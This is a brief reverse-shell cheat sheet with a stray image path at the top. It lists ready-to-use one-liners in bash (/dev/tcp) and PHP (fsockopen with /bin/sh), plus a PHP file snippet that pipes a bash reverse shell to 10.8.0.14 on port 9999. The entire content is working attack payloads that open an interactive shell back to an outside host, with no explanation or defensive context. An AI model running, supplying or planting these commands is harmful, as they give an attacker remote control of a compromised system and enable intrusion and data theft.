 # Various Reverse Shells

# Bash
bash -i >& /dev/tcp/10.0.0.1/9999 0>&1
##

# PHP
php -r '$sock=fsockopen("10.0.0.1",9999);exec("/bin/sh -i <&3 >&3 2>&3");'
##

<?php $cmd = 'echo "bash -i >& /dev/tcp/10.8.0.14/9999 0>&1" | bash';
exec($cmd);

?>
##
